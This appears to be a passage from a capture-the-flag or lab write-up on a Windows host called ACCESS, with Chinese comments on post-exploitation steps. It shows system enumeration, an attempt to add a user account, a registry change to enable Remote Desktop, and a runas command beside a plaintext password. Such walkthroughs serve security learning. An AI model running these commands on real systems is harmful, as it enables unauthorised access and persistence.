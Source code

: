 ```
Product ID:                55041-507-9857321-84191
Original Install Date:     8/21/2018, 9:43:10 PM
System Boot Time:          1/7/2019, 8:14:54 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC

```
```
net user whale /add  添加用户，权限不够
提示：System error 5 has occurred.
Access is denied.

net localgroup
Aliases for \\ACCESS

-------------------------------------------------------------------------------
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Distributed COM Users
*Event Log Readers
*Guests
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*Remote Desktop Users
*Replicator
*TelnetClients
*Users
The command completed successfully.

---
net localgroup TelnetClients
security   说明只有security用户能够用telnet登陆
---
net localgroup Users
Administrator
engineer
NT AUTHORITY\Authenticated Users
NT AUTHORITY\INTERACTIVE
security
The command completed successfully.

---
net localgroup Administrators 查看管理员组
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
---

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 尝试开启3389，失败
---

runas /user:engineer cmd
access4u@security

```
